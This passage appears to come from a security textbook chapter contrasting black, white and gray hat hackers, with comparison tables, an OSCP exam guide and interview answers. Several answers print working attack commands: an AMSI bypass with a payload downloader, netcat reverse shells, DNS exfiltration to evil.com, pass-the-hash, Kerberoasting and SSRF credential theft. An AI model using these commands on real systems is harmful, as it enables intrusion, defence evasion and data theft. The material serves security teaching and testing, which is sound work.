Step 7: Extortion (when applicable)
├── "We have your data. Pay us or we leak."
├── Negotiate in Telegram DMs
└── Leak when demands not met (almost always)
```

**OPSEC Failures:**

```
1. Bragging in Telegram chats
   ├── "We just got into Okta!"
   └── Conversations included real names and locations

2. Using personal infrastructure
   ├── Some VPN connections traced to home IPs
   └── Used personal accounts for GitHub commits

3. Coordinated via compromised company Slack
   ├── Talked about other targets in breached Slack channels
   └── Law enforcement monitoring those channels

4. Same handles across platforms
   ├── User "breachbase" used everywhere
   └── Cross-platform identity linkage

5. Monetary trail
   ├── SIM swap payments linked to personal accounts
   └── Cryptocurrency exchange deposits with KYC
```

**Aftermath:**
- UK police arrested 7 people (ages 16-21) in 2022
- City of London Police Cyber Crime Unit led the investigation
- Multiple suspects charged with computer misuse and fraud
- Key suspect (17 years old) ordered to pay millions in restitution
- The case highlighted the danger of social engineering over technical hacking
- Led to widespread changes in SIM swap and MFA reset procedures

**Security Lessons:**
1. **Human firewall is critical:** Technical controls fail if help desk can be social engineered
2. **MFA reset procedures:** Require in-person verification or manager approval
3. **Internal tool hygiene:** Don't store passwords in Confluence, wikis, or source code
4. **OAuth token security:** Service principals should be scoped, monitored, and rotated
5. **Session monitoring:** Alert on suspicious VPN access patterns (unusual geography, time)
6. **Telecom security:** Push for SIM swap protection protocols (like T-Mobile's No Port)

---

## Section 6: Comparison Tables

### 6.1 Black Hat vs White Hat vs Gray Hat Comparison


| Dimension | Black Hat | White Hat | Gray Hat |
|-----------|-----------|-----------|----------|
| Authorization | None | Written ROE, explicit scope | None (or ambiguous) |
| Motivation | Financial, espionage, ideology | Security improvement, career | Recognition, fix bugs, sometimes $$ |
| Legal Status | Criminal (CFAA, CMA) | Legal with contract | Gray area (varies by jurisdiction) |
| Testing Methodology | Stealth, persistence | Structured (PTES, OSSTMM) | Ad-hoc, focused on findings |
| Vulnerability Disclosure | Sell on darknet, weaponize | CVE, coordinated disclosure | Variable: may disclose publicly |
| Bug Bounty Participation | Never | Primary channel | Sometimes, with disputes |
| Target Selection | Financial ROI, strategic | Client contract, bounty scope | Personal interest, high-profile |
| Tooling | C2 frameworks, custom malware | Same tools, authorized use | Same tools, unauthorized targets |
| Malware Use | Crypter, FUD, persistence | Proof-of-concept only | Sometimes PoC, sometimes weaponized |
| C2 Usage | Yes, obfuscated | Yes, authorized | Sometimes, unauthorized |
| Data Handling | Exfiltrate, sell, ransom | Confidential, delete after report | Variable (may publish) |
| Reporting | None (stay hidden) | Comprehensive report | Blog post, tweet, or nothing |
| Remediation | None (want vulns to persist) | Detailed recommendations | Offer to help fix |
| Collaboration | Darknet forums, private chats | Teams, professional orgs | Twitter, Reddit, Discord |
| OPSEC | Essential (avoid jail) | None needed (legal) | Necessary (legal risk) |
| Career Path | Underground, occasionally caught | Security engineer, pentester, CISO | Variable: may go either way |
| Public Perception | Villains | Heroes | Anti-heroes (controversial) |
| Jail Risk | High | Near zero | Medium (CFAA interpretation) |

### 6.2 Pentest Types Comparison


| Type | Black Box | Gray Box | White Box |
|------|-----------|----------|-----------|
| Information Given | None (domain/IP only) | Credentials, docs, network diagrams | Full source code, architecture, configs |
| Realism | Most realistic | Medium | Least realistic |
| Time Efficiency | Worst (recon-intensive) | Medium | Most efficient |
| Cost | Highest | Medium | Lowest |
| Finding Depth | Surface to medium | Medium to deep | Deepest (logic flaws, crypto issues) |
| Best For | External perimeter | Web apps, APIs, cloud | Source code review, crypto |
| Coverage | Subdomain-dependent | More comprehensive | Most comprehensive |
| Skill Required | Full stack (recon to exploit) | Medium | Specialized (code analysis) |
| Client Preference | Rare (expensive) | Most common | Common for compliance |

### 6.3 Testing Knowledge Levels


| Aspect | Black Box | Gray Box | White Box |
|--------|-----------|----------|-----------|
| Target Knowledge | None | Architecture, credentials | Full source, configs |
| Recon Phase | Extensive (OSINT, scanning) | Minimal (skip basic recon) | None needed |
| Vulnerability Discovery | Scanning + Fuzzing | Static + dynamic combined | Code analysis + static |
| Exploitation | Need full chain | Faster (auth bypass pre-solved) | Focus on logic flaws |
| Reporting | Attack chain narrative | Hybrid narrative | Code-level detail |
| Typical Duration | 3-4 weeks | 2-3 weeks | 1-2 weeks |
| Typical Cost | $50K-$100K+ | $20K-$60K | $10K-$30K |

### 6.4 C2 Framework Comparison


| Feature | Cobalt Strike | Sliver | Havoc | Empire | Covenant | Mythic |
|---------|--------------|--------|-------|--------|----------|--------|
| Open Source | No ($3,500/yr) | Yes (BSL) | Yes (Apache) | Yes (BSD) | Yes (MIT) | Yes (BSD) |
| Language | Java (GUI) + C (beacon) | Go | Go + C | Python (server) PS (agent) | C# (.NET) | Python + Various |
| Platform | Win/Linux | Win/Linux/Mac | Win/Linux | Win/Linux | Win/Linux | Win/Linux/Mac |
| GUI | Rich desktop | CLI + web | Desktop | CLI + web | Desktop | Web |
| HTTP/S C2 | Yes | Yes | Yes | Yes | Yes | Yes |
| DNS C2 | Yes | Yes | Yes | Yes | No | Yes |
| SMB C2 | Yes (named pipe) | Yes | Yes | No | No | Yes |
| mTLS | No | Yes | No | No | No | Yes |
| WireGuard | No | Yes | No | No | No | No |
| SOCKS Proxy | Yes | Yes | Yes | Yes | Yes | Yes |
| Malleable C2 Profiles | Yes (extensive) | Yes (limited) | Yes (extensive) | No | Limited | Yes |
| Sleep Obfuscation | Yes | Yes (extension) | Yes (built-in) | No | No | Yes |
| Indirect Syscalls | No | Extension | Yes (built-in) | No | No | Extension |
| Process Injection | Yes (many methods) | Yes | Yes | Yes | Yes | Yes |
| Keylogger | Yes | Extension | Yes | Yes | Yes | Yes |
| Screenshot | Yes | Yes | Yes | Yes | Yes | Yes |
| File Browser | Yes | Yes | Yes | Yes | Yes | Yes |
| Execute-Assembly | Yes | Yes (sideload) | Yes | N/A (PS native) | Yes | Yes |
| BoF Support | Yes | Yes | Yes | No | No | Yes |
| Ease of Use | High | Medium | Medium | High | High | Medium |
| AV Evasion | High (with profile) | Medium | High (built-in) | Low | Medium | Medium |
| Community | Large (cracked) | Growing | Growing | Declining | Small | Growing |
| Active Development | Yes | Yes | Yes | Yes (BC-Security fork) | Yes (Ryan Cobb) | Yes |

### 6.5 Bug Bounty Platforms Comparison


| Platform | Founded | Payout Range | Fee Model | Program Access | Key Differentiator |
|----------|---------|-------------|-----------|---------------|-------------------|
| HackerOne | 2012 | $100 - $250K+ | 20% bounty fee | Public + Invite | Largest program count |
| Bugcrowd | 2011 | $50 - $100K+ | 15-20% | Public + Private | Managed bug bounty |
| Intigriti | 2016 | $50 - $50K+ | 15% | Public + Private | EU-focused, API-friendly |
| Synack | 2013 | $100 - $25K+ | Subscription | Invite-only | US Federal programs |
| YesWeHack | 2015 | $50 - $50K+ | 15% | Public + Private | Strong in EU/APAC |
| HackenProof | 2017 | $100 - $50K+ | 20% | Public + Private | Crypto/blockchain focused |
| BugBase | 2020 | $50 - $25K+ | 0% (platform fee only) | Public | Indian market focus |

### 6.6 Attack vs Defense Mindset


| Phase | Attacker (Offensive) | Defender (Defensive) |
|-------|---------------------|---------------------|
| Recon | Find as much info as possible | Reduce public attack surface. Monitor OSINT leaks |
| Weaponoization | Create custom payloads, FUD | Deploy EDR, AMSI, WDAC, AppLocker |
| Delivery | Phishing, exploit USB, waterhole | Email security, DMARC, link sandboxing |
| Exploitation | Find unpatched vulns, zero-days | Patch management, vulnerability scanning |
| Installation | Establish persistence, backdoor | Endpoint monitoring, file integrity checking |
| C2 | Obfuscate traffic, domain fronting | Network detection, DNS analysis, proxy inspection |
| Lateral Movement | Pass-the-hash, PSExec, WinRM | Network segmentation, tiered admin model |
| Objective Execution | Exfiltrate, encrypt, destroy | DLP, backup, DR plan, incident response |
| Credential Access | LSASS dumping, keylog, Kerberoast | LSA protection, Credential Guard, MFA |
| Evasion | Process injection, API unhooking | Behavioral detection, EDR telemetry |

### 6.7 Legal Frameworks by Country


| Country | Primary Law | Key Provisions | Researcher Risk |
|---------|------------|----------------|-----------------|
| USA | CFAA (18 U.S.C. § 1030) | Unauthorized access, damage | Medium (Van Buren narrowed scope) |
| UK | Computer Misuse Act 1990 | §1-3: Access, intent, damage | High (no research exemption) |
| Germany | §202a StGB (Data Espionage) | Unauthorized data access | High (criminalizes scanning) |
| France | Article 323-1 CP | Unauthorized system access | Medium |
| Canada | Criminal Code §342.1 | Unauthorized computer use | Medium |
| Australia | Criminal Code Act 1995 §477 | Unauthorized access, modification | Medium |
| India | IT Act 2000 §43, 66 | Unauthorized access, data theft | High (broad interpretation) |
| Japan | Unauthorized Computer Access Law | Prohibited access, tool provision | Medium |
| Russia | Federal Law 149-FZ, CC §272 | Unauthorized access | Very High (dual-use tools) |
| China | Cybersecurity Law, Criminal Law §285 | Illegal computer intrusion | Very High |
| EU | GDPR, ePrivacy Directive | Data breach notification | Low-Medium |

---

## Section 7: OSCP Methodology Guide

### 7.1 OSCP Exam Overview


The Offensive Security Certified Professional (OSCP) is the most respected hands-on pentesting certification. The current exam format:

| Aspect | Details |
|--------|---------|
| Exam Duration | 23 hours 45 minutes (24 hours - 15 min buffer) |
| Machines | 3 standalone + 1 AD set (3 machines) = 6 total |
| Points | 100 total (must score 70+ to pass) |
| Standalone machines | 20-30 points each |
| AD Set | 40 points |
| Lab Report | 10 bonus points (if completed) |
| Retakes | 1 free retake included |

### 7.2 OSCP Methodology


```
RECON PHASE (1-2 hours per machine):
├── Nmap: -sC -sV -p- -T4 -oA nmap/<target>
├── Web: gobuster, nikto, nuclei
├── SMB: enum4linux, smbclient, crackmapexec
└── Known vulns: searchsploit "service version"

ENUMERATION PHASE (2-3 hours):
├── Deep port-by-port enumeration
├── Check every web directory, parameter, form
├── Inspect source code, comments, hidden fields
├── Test default credentials
└── Check version-specific exploits

EXPLOITATION PHASE (1-4 hours):
├── Low-hanging fruit first (default creds, known exploits)
├── If no easy exploit:
│   ├── Web: SQLmap, XSS, LFI/RFI, file upload
│   ├── Service: buffer overflow, command injection
│   └── Password: hydra, john, crackmapexec
└── If stuck: re-enumerate, try different services

PRIVESC PHASE (1-3 hours):
├── Linux:
│   ├── linpeas.sh, linux-exploit-suggester.sh
│   ├── SUID, cron, sudo -l, PATH hijacking
│   └── Kernel exploits (DirtyPipe, PwnKit)
├── Windows:
│   ├── winpeas.exe, PowerUp.ps1, Sherlock.ps1
│   ├── Unquoted paths, service permissions
│   └── Token impersonation, kernel exploits
└── AD Set:
    ├── BloodHound, crackmapexec
    ├── AS-REP roasting, Kerberoasting
    └── ACL abuse, DCSync

DOCUMENTATION PHASE (during entire exam):
├── Screenshot every command and output
├── Note: IP, ports, services, version strings
├── Note: exact commands used for enumeration
├── Note: exploit source and modification
├── Screenshot: proof.txt on each machine
└── Write report on the 24-hour break day
```

### 7.3 OSCP Exam Tips


```
1. ENUMERATION IS EVERYTHING
   ├── 80% of OSCP is good enumeration
   ├── If stuck, re-enumerate with different tools
   └── Check TCP AND UDP ports

2. TIME MANAGEMENT
   ├── 1 hour per machine: full port nmap + initial scanning
   ├── Don't spend >4 hours on one machine
   ├── AD set: attack as a chain, not isolated
   └── Move on and come back

3. COMMON VECTORS
   ├── Web applications are worth exploring first
   ├── File upload → webshell → reverse shell
   ├── SQL injection → data extraction → credentials
   └── Password reuse across services

4. PRIVILEGE ESCALATION
   ├── Run automated scripts early
   ├── Linux: linpeas.sh shows most paths
   ├── Windows: winpeas.exe / Service enumeration
   └── Check sticky bits, sudo -l, cron jobs

5. MACHINE TYPES
   ├── Some machines require multi-step exploits
   ├── Some have rabbit holes (ignore them)
   ├── AD set follows realistic attack path
   └── Buffer overflow is still tested
```

---

## Section 8: Interview Corner

### Q1: What is the difference between a vulnerability assessment and a penetration test?


**Answer:**
A vulnerability assessment is an automated scan that identifies potential security weaknesses (CVEs, misconfigurations) without exploitation. It produces a list of findings but does not validate them. A penetration test is a manual, expert-led process that attempts to exploit vulnerabilities to prove real-world impact. The two key differences are:

1. **Exploitation:** Pentests exploit findings; vulnerability assessments do not
2. **Validation:** Pentests eliminate false positives through manual verification; vulnerability assessments include false positives

Example: A vulnerability scan might report "Apache 2.4.49 detected" (and CVE-2021-41773 for path traversal). A pentest would try `curl http://target/cgi-bin/.%2e/%2e%2e/var/log/apache2/` to prove it works and assess the impact.

### Q2: Explain the Cyber Kill Chain and how it maps to penetration testing.


**Answer:**
The Cyber Kill Chain (Lockheed Martin) has 7 phases that map directly to pentesting phases:

| Kill Chain Phase | Pentest Equivalent | Example |
|-----------------|-------------------|---------|
| Reconnaissance | Passive/Active Recon | OSINT, Shodan, Google dorking |
| Weaponization | Payload preparation | msfvenom, custom exploit |
| Delivery | Social engineering | Phishing email with payload |
| Exploitation | Gaining access | Metasploit module, SQL injection |
| Installation | Persistence | Registry run keys, cron job |
| C2 | Command & Control | HTTPS beacon, DNS tunnel |
| Actions on Objectives | Data exfiltration/impact | Show proof.txt, demonstrate impact |

### Q3: How would you escalate privileges on a Linux server after gaining www-data access?


**Answer:**
My escalation methodology follows this order:

1. **Automated enumeration:** Run `linpeas.sh` or `linux-exploit-suggester.sh`
2. **SUID binaries:** `find / -perm -4000 -type f 2>/dev/null` — check GTFOBins for each
3. **Sudo privileges:** `sudo -l` — check what the user can run as sudo
4. **Cron jobs:** Check `/etc/crontab`, `/var/spool/cron/*` — writable scripts, wildcards
5. **Kernel exploits:** Check kernel version against known exploits (DirtyPipe CVE-2022-0847, PwnKit CVE-2021-4034)
6. **Writable /etc/passwd or /etc/shadow:** `ls -la /etc/passwd`
7. **Capabilities:** `getcap -r / 2>/dev/null` — look for exploitable capabilities
8. **LXD/LXC groups:** If user is in lxd group, container escape to host

Example: For www-data on a box with CVE-2021-4034:
```bash
www-data:~$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data:~$ ls -la /usr/bin/pkexec
-rwsr-xr-x 1 root root 31056 Jan 15  2021 /usr/bin/pkexec
www-data:~$ wget http://attacker/exploit -O /tmp/exploit
www-data:~$ gcc /tmp/exploit.c -o /tmp/exploit
www-data:~$ /tmp/exploit
# whoami
root
```

### Q4: How would you approach a Windows domain controller assessment?


**Answer:**
For an AD environment, I follow this structured approach:

1. **Initial Recon:**
   - Port scan: DNS (53), Kerberos (88), RPC (135), NetBIOS (139), SMB (445), LDAP (389/636), RDP (3389)
   - LDAP anonymous query: `ldapsearch -x -h DC -b "DC=domain,DC=com"`
   - SMB enumeration: `smbclient -L //DC -N`, `enum4linux -a DC`

2. **Username Harvesting:**
   - Kerbrute: `./kerbrute userenum -d domain.com usernames.txt --dc DC`
   - AS-REP roasting: `impacket-GetNPUsers domain.com/ -usersfile users.txt`
   - RID cycling: `crackmapexec smb DC -u 'guest' -p '' --rid-brute`

3. **Password Attacks:**
   - Password spray: `crackmapexec smb DC -u users.txt -p passwords.txt`
   - Kerberoasting: `impacket-GetUserSPNs domain.com/username:password -request`

4. **Post-Exploitation:**
   - BloodHound: `SharpHound.exe -c All --domain domain.com`
   - Analyze attack paths: shortest to Domain Admin
   - DCSync: `impacket-secretsdump domain.com/admin:password@DC`
   - Golden Ticket: `mimikatz "kerberos::golden /user:admin /domain:domain.com /sid:... /krbtgt:... /ptt"`

5. **Lateral Movement:**
   - PSExec, WinRM, WMI, SMB exec via impacket
   - Task scheduler, GPO deployment (for ransomware simulation)

### Q5: Explain the difference between a reverse shell and a bind shell. When would you use each?


**Answer:**
- **Reverse shell:** Target connects back to attacker (target is client, attacker is server). Used when target is behind NAT or firewall that blocks inbound connections. Command: `nc -e /bin/sh attacker 4444` with attacker running `nc -lvnp 4444`
- **Bind shell:** Attacker connects directly to target (target is server, attacker is client). Used when target is directly reachable and listening on a vulnerable port. Command: `nc -lvnp 4444 -e /bin/sh` on target with attacker running `nc target 4444`

**Decision Matrix:**
| Scenario | Best Choice |
|----------|------------|
| Target behind NAT | Reverse shell |
| Firewall blocks outbound | Bind shell (if inbound allowed) |
| Egress filtering only | Bind shell |
| Ingress filtering only | Reverse shell |
| Both filtered | DNS tunneling or HTTP on allowed ports |
| Need to bypass detection | Reverse shell on 443 (HTTPS) |

### Q6: How would you bypass Windows Defender during a penetration test?


**Answer:**
Defender bypass techniques are constantly evolving, but the following approaches work consistently:

1. **Living off the Land (LOLBins):** Use native Windows tools to avoid writing binaries
   - `cscript.exe`, `wscript.exe`, `mshta.exe`, `rundll32.exe`
   - PowerShell without powershell.exe: Unmanaged PowerShell via C#
   - WMI: `wmic process call create "cmd.exe /c command"`

2. **Process Injection:** Inject shellcode into legitimate processes
   - CreateRemoteThread, NtCreateThreadEx
   - APC injection (QueueUserAPC)
   - Process hollowing

3. **Obfuscation:**
   - PowerShell: Base64 encode, string splitting, variable substitution
   - C#: ConfuserEx, Obfuscar
   - Python: pyarmor, py2exe + packing

4. **Alternative Techniques:**
   - Execute-assembly (Cobalt Strike/Sliver) — runs .NET in-memory
   - Reflective DLL injection — no on-disk footprint
   - Office macro with PowerShell cradle

Example PowerShell bypass:
```powershell
# AMSI bypass
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

# ETW bypass (C# — compile to exe)
[System.Diagnostics.Eventing.EventProvider].GetField('m_enabled','NonPublic,Instance').SetValue($EventProvider,0)

# XOR-encrypted payload decrypted in memory
$bytes = (Invoke-WebRequest "http://server/payload.enc").Content
$key = 0xAB
for($i=0; $i -lt $bytes.Length; $i++) { $bytes[$i] = $bytes[$i] -bxor $key }
$assembly = [System.Reflection.Assembly]::Load($bytes)
$assembly.EntryPoint.Invoke($null, @(,[string[]]@()))
```

### Q7: What is pass-the-hash and how does it work?


**Answer:**
Pass-the-Hash (PtH) is a lateral movement technique where an attacker uses NTLM password hashes (not plaintext passwords) to authenticate to Windows systems. It works because NTLM authentication uses the hash directly as the credential — no plaintext password is needed.

**How it works:**
1. Attacker extracts NTLM hash from LSASS (e.g., `fc525c9683e8fe067095ba2ddc971889`)
2. Uses hash to authenticate via SMB, WMI, WinRM, or RDP (RDP requires additional steps)
3. Target server validates the hash against its SAM or domain controller

**Tools:**
```bash
# CrackMapExec (pass-the-hash)
crackmapexec smb 192.168.1.0/24 -u administrator -H fc525c9683e8fe067095ba2ddc971889

# impacket psexec with hash
impacket-psexec -hashes :fc525c9683e8fe067095ba2ddc971889 administrator@192.168.1.10

# Mimikatz pass-the-hash
mimikatz "privilege::debug" "sekurlsa::pth /user:admin /domain:acme /ntlm:fc525c9683e8fe067095ba2ddc971889"
```

**Mitigation:**
- Enable Windows Defender Credential Guard (virtualizes LSASS)
- Restrict local admin token via Group Policy
- Implement Microsoft LAPS (different local admin password per machine)
- Use Protected Users group (disables NTLM authentication)
- Deploy tiered administrative model

### Q8: What is your methodology for web application penetration testing?


**Answer:**
My web app testing methodology follows OWASP Testing Guide v4/v5:

1. **Information Gathering:**
   - Wappalyzer/BuiltWith for tech stack detection
   - robots.txt, sitemap.xml, .well-known/
   - Wayback Machine for historical endpoints
   - Directory busting: gobuster, ffuf

2. **Authentication Testing:**
   - Test for default credentials, username enumeration
   - Login bypass (SQLi, NoSQLi, LDAP injection)
   - Session fixation, weak session tokens
   - Rate limiting, account lockout testing

3. **Authorization Testing:**
   - IDOR: change parameter values (GET /user?id=1 → id=2)
   - Privilege escalation: repeat admin actions as user
   - JWT manipulation: change algorithm to none, tamper payload

4. **Input Validation:**
   - XSS: `<script>`, ``, `javascript:alert(1)`
   - SQL injection: `' OR '1'='1`, time-based, union-based
   - SSRF: `http://169.254.169.254/latest/meta-data/`
   - LFI: `../../../etc/passwd`, PHP wrappers

5. **Business Logic:**
   - Workflow bypass (skip payment step)
   - Race conditions (time-of-check/time-of-use)
   - Parameter tampering (price in hidden field)

6. **API Testing:**
   - Rate limiting, mass assignment
   - Broken object property level authorization (BOPLA)
   - GraphQL injection, depth attacks

7. **Reporting:**
   - CVSS scoring for each finding
   - Proof of concept with reproduction steps
   - Remediation guidance with code examples

### Q9: How would you exfiltrate data from a highly monitored network?


**Answer:**
Exfiltration techniques depend on the network controls in place:

1. **DNS Tunneling:**
   Encode data in DNS queries: `base64data.evil.com`
   Requires DNS recursion enabled. Detectable via entropy analysis.

2. **HTTPS Exfiltration:**
   POST data to attacker-controlled server using HTTPS
   Blends with normal web traffic. Most common method.

3. **ICMP Tunneling:**
   Encode data in ICMP echo request payload
   Low bandwidth but often not monitored.

4. **Email Exfiltration:**
   Send data via SMTP to external email address
   Oldest trick, but many orgs don't filter outgoing mail content.

5. **Image Steganography:**
   Embed data in image files, upload to image hosting
   Hard to detect but requires more setup.

6. **Legitimate Cloud Services:**
   Upload to Google Drive, Dropbox, Mega, S3 bucket
   Often whitelisted, blends with normal traffic.

7. **Rclone (most common in ransomware):**
   `rclone copy /data remote:backup --no-check-certificate`
   Fast, supports 40+ cloud providers, encrypted transfers.

```bash
# DNS exfiltration example
# Encode file to base64, then DNS encode
base64 -w0 secret.docx | while read chunk; do
    dig @8.8.8.8 "${chunk:0:50}.exfil.evil.com"
done

# Server side (running on evil.com):
# tcpdump -i eth0 -n 'port 53' | grep "exfil.evil.com" | cut -d' ' -f5 | cut -d'.' -f1 >> captured.txt
```

### Q10: Explain the difference between red team, blue team, and purple team.


**Answer:**
- **Red Team:** Offensive security team that simulates real adversaries. They use TTPs from actual threat actors (APTs, ransomware groups) to test detection and response capabilities. Duration: 2-8 weeks. They don't just find vulnerabilities — they test people, processes, and technology.

- **Blue Team:** Defensive security team responsible for detecting, responding to, and mitigating threats. They run SOC operations, manage SIEM, deploy EDR, perform threat hunting, and handle incident response.

- **Purple Team:** Integration team that facilitates collaboration between Red and Blue. They ensure that Red Team findings translate into improved Blue Team capabilities. Purple team exercises typically involve real-time feedback loops where Red performs a technique, Blue tries to detect it, and gaps are immediately addressed.

| Aspect | Red Team | Blue Team | Purple Team |
|--------|----------|-----------|-------------|
| Goal | Find weaknesses | Defend and detect | Improve both |
| Mindset | Adversarial | Defensive | Collaborative |
| Duration | 2-8 weeks | Continuous | Continuous |
| Scope | Full attack chain | Logs, alerts, incidents | Specific TTPs |
| Output | Campaign narrative | Incident reports | Detection rules |

### Q11: What is Kerberoasting and how do you mitigate it?


**Answer:**
Kerberoasting is an AD attack where an attacker requests Kerberos service tickets for service accounts and cracks them offline. Since Kerberos uses RC4 or AES encryption, the ticket contains encrypted service account password material.

**Attack Flow:**
```bash
# Step 1: Find service accounts with SPNs
impacket-GetUserSPNs domain.com/user:password -outputfile kerberoast.txt

# Step 2: Password cracking (offline)
john --wordlist=rockyou.txt kerberoast.txt
hashcat -m 13100 kerberoast.txt rockyou.txt  # RC4
hashcat -m 19700 kerberoast.txt rockyou.txt  # AES

# Alternatively, from within the domain:
Request-SPNTicket -User "SQLSvc" | select -ExpandProperty Hash
```

**Mitigation:**
1. Use strong passwords (>25 chars, random) for service accounts
2. Use Group Managed Service Accounts (gMSA) — auto-rotated complex passwords
3. Use AES256 encryption instead of RC4 (RC4 cracks faster)
4. Monitor Event ID 4769 (Kerberos service ticket requested) — alert on many requests
5. Limit SPN assignments to only what's necessary
6. Implement JIT (Just-in-Time) access for service accounts

### Q12: How would you find and exploit a Server-Side Request Forgery (SSRF) vulnerability?


**Answer:**
SSRF occurs when a web application fetches remote resources based on user input without proper validation.

**Detection:**
1. Look for parameters that contain URLs: `url=`, `page=`, `load=`, `file=`, `fetch=`
2. Try cloud metadata endpoint: `http://169.254.169.254/latest/meta-data/`
3. Try internal services: `http://localhost:9200`, `http://127.0.0.1:5432`
4. Try file protocol: `file:///etc/passwd`
5. Try different protocols: `gopher://`, `dict://`, `ftp://`

**Exploitation (Cloud Metadata):**
```bash
# Blind SSRF - AWS metadata
curl "http://target.com/proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
# Returns role name

curl "http://target.com/proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/EC2RoleName"
# Returns AWS credentials!

# Blind SSRF - GCP metadata
curl "http://target.com/proxy?url=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token"
# Need header: Metadata-Flavor: Google

# Blind SSRF - Azure metadata
curl "http://target.com/proxy?url=http://169.254.169.254/metadata/instance?api-version=2021-02-01"
```

**Remediation:**
1. Block metadata IP ranges (169.254.169.254, 169.254.170.2, fd00:ec2::254)
2. Use an allowlist of permitted URLs
3. Disable unnecessary URL schemes (file://, gopher://, dict://)
4. Validate and sanitize input with strict regex
5. Use a dedicated URL parser, not string concatenation

### Q13: Explain the NTLM authentication protocol and its weaknesses.


**Answer:**
NTLM (NT LAN Manager) is a challenge-response authentication protocol:

1. Client sends username to server
2. Server sends 16-byte random challenge (nonce)
3. Client hashes password with MD4 → NTLM hash
4. Client encrypts challenge with NTLM hash → response
5. Server verifies: sends challenge+response to DC, DC validates

**Weaknesses:**

1. **Pass-the-Hash:** Since the NTLM hash IS the credential, no plaintext needed
2. **Relay attacks:** Attacker captures NTLM challenge/response and relays to another server
3. **No mutual authentication:** Client doesn't verify server identity (man-in-the-middle)
4. **Weak cryptography:** LM hash (DES), NTLMv1 (DES+MD4) — trivially crackable
5. **No MFA support:** Password-hash based only
6. **Replayable:** Session keys are derived from password material

**Mitigation:**
- Disable NTLM entirely where possible (Kerberos-only environments)
- Enable NTLMv2 only (disable LM and NTLMv1)
- Enable SMB signing (prevents relay)
- Use Extended Protection for Authentication (EPA)
- Deploy Credential Guard

### Q14: What is BloodHound and how do you use it in assessments?


**Answer:**
BloodHound is an AD reconnaissance tool that maps attack paths through relationship analysis. It uses graph theory to find the shortest path from a compromised user to Domain Admin.

**Workflow:**
```bash
# Collection (on compromised Windows machine)
SharpHound.exe -c All --domain acme.com -o bloodhound-output.zip

# Or remotely:
# Execute SharpHound via C2 or scheduled task

# Analysis (on Kali with BloodHound GUI)
bloodhound --no-sandbox
# Upload the JSON files via UI

# Useful queries:
# 1 "Find all Domain Admins" — shows DA members
# 2 "Shortest Paths to High Value Targets" — attack paths
# 3 "Find Computers where Domain Users are Local Admin" — lateral movement
# 4 "Kerberoastable Users" — service accounts for offline cracking
# 5 "AS-REP Roastable Users" — users without Kerberos pre-auth
# 6 "Users with 'Force Change Password' rights" — ACL abuse
# 7 "Find all paths from owned principals" — after compromise
```

**Key AD Attack Paths BloodHound Finds:**
- Member of group that has admin rights on a server where DA is also admin
- User that can write to a Group Policy Object applied to Domain Controllers
- ACL: user has "ForceChangePassword" on another privileged account
- Computer where user is admin, running service as DA
- DCSync rights granted to non-privileged accounts

### Q15: Walk me through a typical Active Directory attack chain from zero access.


**Answer:**
```
Step 0: No Access — External Recon
├── Identify: ASN ranges, subdomains, VPN portals, email addresses
├── Shodan: exposed RDP, SMB, LDAP, Exchange
└── Google dorking: leaked credentials, internal docs

Step 1: Initial Access
├── Password spray: known usernames against VPN/OWA
├── If no success: spear-phish with malicious macro
├── Or: exploit vulnerable service (Exchange ProxyLogon, Citrix)
└── Result: Low-privileged user credentials or shell

Step 2: Internal Recon
├── BloodHound: SharpHound collection
├── DNS: enumerate AD domains, DCs
└── Network: discover internal services, subnets

Step 3: Privilege Escalation (Local)
├── Run winpeas.exe, seek misconfigurations
├── Token impersonation (if SeImpersonatePrivilege)
└── Get SYSTEM or local admin on first box

Step 4: AD Enumeration
├── crackmapexec: SMB ping sweep for lateral targets
├── Kerberoast: crack service account passwords
├── AS-REP roast: find users without pre-auth
└── BloodHound analysis: find attack path to DA

Step 5: Lateral Movement
├── Pass-the-Hash to additional machines
├── Deploy C2 beacon on each compromised host
├── Use scheduled tasks or WMI for execution
└── Harvest more credentials at each location

Step 6: Domain Admin
├── Follow BloodHound path
├── Dump KRBTGT hash from DC (DCSync)
├── Create Golden Ticket for persistence
└── Full AD domain compromise

Step 7: Objective
├── Dump all domain hashes (secretsdump)
├── Extract database credentials from web servers
├── Access file shares, email archives
└── Deploy ransomware or exfiltrate sensitive data
```

---

## Section 9: Applications in Real Systems

### Enterprise Security Programs

Red Teams validate SIEM rules, EDR configurations, and incident response processes by emulating real adversaries. Organizations like JPMC, Microsoft, and Google run continuous red team operations against their own production environments.

### Financial Services

Banks (HSBC, Deutsche Bank, Citi) conduct pentests against SWIFT interfaces, wire transfer systems, and trading platforms. The Carbanak/Fin7 case demonstrated that financial systems require deep pentesting beyond standard web app testing.

### Healthcare

HIPAA mandates regular pentesting. Healthcare pentests focus on: EHR systems (Epic, Cerner), medical device networks, patient data access controls, and IoT medical devices. The WannaCry attack that crippled the NHS showed the critical importance of healthcare security testing.

### Cloud Providers

AWS, Azure, and GCP run bug bounty programs for their infrastructure. Cloud pentesting validates: IAM policies, S3 bucket permissions, KMS key management, container security, and serverless function permissions.

### Government & Defense

Pentest requirements under FedRAMP, NIST 800-53, and CMMC. Government pentests focus on: cross-domain solutions, classified data handling, identity management (CAC/PIV), and supply chain security.

### E-commerce

Payment card industry (PCI DSS) requires quarterly vulnerability scans and annual pentests. E-commerce pentests validate: payment page security (P2PE), shopping cart logic, coupon fraud prevention, and PII handling.

### Critical Infrastructure

OT/ICS pentesting (covered in-depth by other chapters) validates: SCADA security, PLC programming, HMI access controls, and safety system integrity. The Stuxnet attack demonstrated why critical infrastructure pentesting is essential.

### Technology Vendors

Microsoft, Apple, Google, and Oracle run bug bounty programs and internal pentests. Their focus is on: hypervisor security (Hyper-V, KVM), operating system kernel bugs, browser security (sandbox escapes), and cloud hypervisor isolation.

---

## Summary

- **Black Hat hackers** are criminals who exploit systems without authorization. Understanding their TTPs, tooling (Cobalt Strike, ransomware, IABs), and OPSEC failures is essential for defense.
- **White Hat hackers** operate with authorization and legal protection. Professional pentesters follow structured methodologies (PTES, OSSTMM, OWASP), use CVSS scoring, and deliver comprehensive reports.
- **Gray Hat hackers** operate in legal gray zones. Famous cases (Khalil Shreateh, Geohot, Samy Kamkar) illustrate the ethical dilemmas and legal risks of unauthorized vulnerability research.
